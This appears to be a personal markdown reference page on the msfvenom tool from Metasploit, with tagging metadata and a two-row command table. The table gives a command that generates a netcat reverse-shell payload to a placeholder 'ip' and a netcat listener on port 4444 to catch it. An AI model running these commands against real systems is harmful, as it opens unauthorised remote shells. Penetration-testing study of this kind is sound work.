 ```yaml
---
topic: msfvenom
type: tool
site: https://github.com/rapid7/metasploit-framework
status: tried
included_topics: 
 - cli
 - hacking
language:
 - bash
history:
  found: 2023/04/21
  tried: 2023/04/21
  used: 
  core: 
  hold: 
os:
  - linux
  - windows
  - mac
---
```


# msfvenom
[Readme](../../README.md)

- [msfvenom](#msfvenom)
  - [Commands](#commands)
    - [Examples](#examples)


## Commands
### Examples

| What                        | Command                                                         |
| :-------------------------- | :-------------------------------------------------------------- |
| Payload for reverse shell   | ```msfvenom -p cmd/unix/reverse_netcat lhost=ip lport=4444 R``` |
| Open port for reverse shell | ```nc -lvp 4444```                                              |

